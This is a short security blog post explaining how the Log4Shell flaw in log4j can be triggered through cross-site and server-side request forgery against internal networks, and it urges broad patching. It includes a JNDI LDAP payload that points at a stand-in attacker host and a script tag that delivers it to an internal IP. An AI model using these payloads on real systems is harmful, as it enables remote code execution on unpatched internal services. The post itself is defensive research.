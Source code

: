 ```yaml
---
title: "Log4Shell and Request Forgery Attacks"
date: 2022-01-04T15:18:18-08:00
draft: true
tags: [
        "pentest", "red","research"
    ]

twitter:
  card: "summary_large_image"
  site: "@wunderwuzzi23"
  creator: "@wunderwuzzi23"
  title: "Log4Shell and Request Forgery Attacks"
  description:  "Beware of Log4Shell and Request Forgery Attacks"
  image: "https://embracethered.com/blog/images/2022/log4shell.png"
---
```



The last weeks of 2021 got quite interesting for security professionals and software engineers  . 

Apache's [log4j library](https://logging.apache.org/log4j/2.x/) and its now prominent [Java Naming and Directory Interface support](https://docs.oracle.com/javase/tutorial/jndi/overview/index.html), which enables easy remote code execution, made the news across the industry. 

What makes Log4Shell scary is the widespread adoption of the Log4j library amongst Java applications, and the ease of remote exploitation. 

**A dangerous combination.** 

Patches got released, bypasses were discovered more patches were released and so forth.

A lot has been written and great information is out there around [discovery](https://www.microsoft.com/security/blog/2021/12/11/guidance-for-preventing-detecting-and-hunting-for-cve-2021-44228-log4j-2-exploitation/), [exploitation](https://unit42.paloaltonetworks.com/apache-log4j-vulnerability-cve-2021-44228/#exploit) as well as [mitigations](https://www.cisa.gov/uscert/apache-log4j-vulnerability-guidance). This post is not intended to repeat that information. 

![Log4Shell and Request Forgery Attacks](/blog/images/2022/log4shell.png)

However, an area that has not gotten a lot of attention is the exploitation of Log4Shell in Request Forgery Attacks that target internal infrastructure and web servers by using the browser or a vulnerable service as confused deputy.

## What are Request Forgery Attacks?

Request Forgery Attacks create requests that have unintended consequences for the victim of the attack. 

These can typically be put in two categories, based on where the request is forged (client or server)
 
1. **Cross-Site Request Forgery Attacks** (CSRF) - these attacks make the client/browser connect to resources and trigger unintended actions. This attactypically leverages authentication tokens to invoke privileged operations on the users behalf via a web browser.
2. **Server-Side Request Forgery Attacks** (SSRF) - these attacks create a request on the server side, where an attacker is able to provide a URL to the server and the server will later connect to that URL. This could be via a wide range of destinations and protocols (localhost, internal networks, http, ftp, ldap,...)

Both kinds of request forgery vulnerabilities are quite common in web application and services. Also see the [confused deputy problem](https://en.wikipedia.org/wiki/Confused_deputy_problem) for a generic explanation of this kind of security issue.

## Why is this interesting in regard to Log4j?

**What makes request forgery attacks so powerful in regard to Log4j is that the Log4j vulnerability often can be triggered without any form of authentication**. 

This makes Cross-Site Request Forgery Attacks that target local or internal network resources very plausible. The same goes for the Server-Side attack scenarios. 

Any Server-Side feature which allows a user to specify a URL to control where a service connects to can potentially be leveraged to target internal infrastructure and probe for the log4j vulnerability.

## Simple GET requests trigger Log4Shell

Remember that in many cases all that is needed to reach a vulnerable log4j system is a GET request with a query parameter that contains the attack payload, for example:

`?username=${jndi:ldap://attacker/p}`

This payload can be provided by a malicious web page, e.g. when loading `image` or `script` tags:

`<script src="https://10.0.0.1/?username=${jndi:ldap://attacker/p}">`

This request will attack an internal network (such as the `10.0.0.1` IP address). It can also target applications installed on `localhost` (including phones!) of the victim browsing the Internet. 

![Log4Shell and Request Forgery Attacks - Log4 What?](/blog/images/2022/glasses.png)

An adversary can automate and scale this technique via JavaScript and AJAX requests or by just adding more tags in the HTML document.

Beware of this attack vector (possibly in combination with phishing attacks) patch and protect internally facing applications as well.

## Conclusion

This post discussed how both Cross-Site (client based) and Server-Side Request Forgery Attacks can lead to succesful exploitation of the log4j vulnerability.

**If you were solely focused on patching externally facing applications and services expand your analysis to everything, including internal infrastructure, as well as developer and end user machines.**

[Chrome and Edge](https://chromestatus.com/feature/5436853517811712) seem to add more restrictions for browsers to talk to private networks as well.

Keep scanning and patching!

## References

* [Apache Log4j Overview](https://logging.apache.org/log4j/2.x/) 
* [JNDI Overview](https://docs.oracle.com/javase/tutorial/jndi/overview/index.html)
* [CISA - Apache Log4j Vulnerabilty Guidance](https://www.cisa.gov/uscert/apache-log4j-vulnerability-guidance)
* [Apache Log4j Vulnerability - Exploit](https://unit42.paloaltonetworks.com/apache-log4j-vulnerability-cve-2021-44228/#exploit)
* [Confused Deputy Problem](https://en.wikipedia.org/wiki/Confused_deputy_problem)
* [Guidance for preventing, detecting and hunting for CVE 2021-44228](https://www.microsoft.com/security/blog/2021/12/11/guidance-for-preventing-detecting-and-hunting-for-cve-2021-44228-log4j-2-exploitation/)
* [Feature: Restrict "private network requests" for subresources from public websites to secure contexts](https://chromestatus.com/feature/5436853517811712)
* Image with the glasses taken from Microsoft Image search included in PowerPoint - credit goes to whoever created the image.

